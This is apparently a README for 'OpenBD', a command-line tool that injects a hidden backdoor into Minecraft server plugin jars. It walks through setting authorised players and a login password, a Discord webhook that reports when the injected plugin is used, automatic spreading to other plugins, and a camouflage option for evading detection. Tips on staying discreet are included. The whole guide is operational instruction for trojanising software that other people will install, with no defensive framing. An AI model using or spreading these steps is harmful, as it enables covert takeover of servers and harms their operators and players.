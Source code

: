 # OpenBD Usage Guide

To use `OpenBD.jar`, follow these steps:

### Step 1: Generate the Configuration File

First, you need to create a `config.json` file to customize the backdoor's behavior. Use the following command in your terminal or command prompt:

```sh
java -jar OpenBD.jar --generate-config config.json
```

This command will create a `config.json` file with default values.

### Step 2: Edit the Configuration File

Open the newly created `config.json` file and modify it to suit your needs.

#### Default Configuration:
```json
{
  "uuids": [],
  "usernames": [],
  "prefix": "!",
  "spread": false,
  "warnings": true,
  "discord_token": "",
  "password": "12345"
}
```

#### Option Descriptions:

| Option | Purpose |
| :--- | :--- |
| `uuids` | A list of player UUIDs that are authorized to use the backdoor. |
| `usernames` | A list of player names that are authorized to use the backdoor. |
| `prefix` | The prefix for backdoor commands (e.g., `!`). |
| `spread` | Automatically spread the backdoor to other plugins on the server. |
| `warnings` | Display debug messages in the console. |
| `discord_token` | A Discord webhook token to send information when someone uses your injected plugin. |
| `password` | The password required to log in to the backdoor using `!login [password]`. |

#### Example of a Modified Config File:
```json
{
  "uuids": ["069a79f4-44e9-4726-a5be-fca90e38aaf5"],
  "usernames": ["Kudo","kudo"],
  "prefix": "!",
  "spread": true,
  "warnings": false,
  "discord_token": "YOUR_DISCORD_WEBHOOK_TOKEN_HERE",
  "password": "12345"
}
```

#### Helpful Tips:
*   If both `uuids` and `usernames` are left empty, everyone on the server will see the backdoor login message but cannot use it without the password.
*   If `password` is not set, you can log in with just the `!login` command.
*   To remain discreet, keep `warnings` set to `false`.

### Step 3: Inject the Backdoor into a Plugin

Once you have configured `config.json`, you can inject the backdoor into one or more plugins.

#### General Syntax:
```sh
java -jar OpenBD.jar --inject [options]
```

#### Examples:

**1. Inject into a single plugin file:**

This command injects the backdoor into `plugin.jar` and creates a new file named `plugin-injected.jar`.

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -o plugin-injected.jar -c config.json
```

**2. Inject and replace the original file:**

Use the `-r` (or `--replace`) flag to overwrite the original plugin file. **Use this option with caution.**

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -c config.json -r
```

**3. Inject into multiple plugins in a directory:**

This command processes all `.jar` files in the `plugins-in` directory and saves the injected files to the `plugins-out` directory.

```sh
java -jar OpenBD.jar --inject -m multiple -i plugins-in/ -o plugins-out/ -c config.json
```

**4. Inject with camouflage:**

Add the `--camouflage` flag to make the backdoor harder to detect. This example also replaces the original file.

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -c config.json --camouflage -r
```

---

## List of Commands and Flags

### Main Commands:

| Command | Description |
| :--- | :--- |
| **`--inject`** | The main operation, used to inject the backdoor into `.jar` files. |
| **`--generate-config <path>`** | Generates a default `config.json` file at the specified path. |
| **`--status <path>`** | Checks if a plugin has been injected (feature not yet complete). |
| **`--help`**, **`-h`** | Shows this help message. |

### Options for the `--inject` command:

| Option | Alias | Description |
| :--- | :--- | :--- |
| **`--config <path>`** | `-c` | Path to the `config.json` configuration file. |
| **`--mode <mode>`** | `-m` | Processing mode: `single` (one file) or `multiple` (default, for directories). |
| **`--input <path>`** | `-i` | Input path. A file for `single` mode (default: `in.jar`), or a directory for `multiple` mode (default: `in`). |
| **`--output <path>`** | `-o` | Output path. A file for `single` mode (default: `out.jar`), or a directory for `multiple` mode (default: `out`). |
| **`--replace`** | `-r` | Replaces the input file(s) instead of creating new ones in the output path. |
| **`--camouflage`** | | Camouflages the backdoor to avoid detection. |
| **`--debug`** | `-db` | Display debug log | 
| **`--trace-errors`** | `-tr` | Displays the full stack trace on errors. |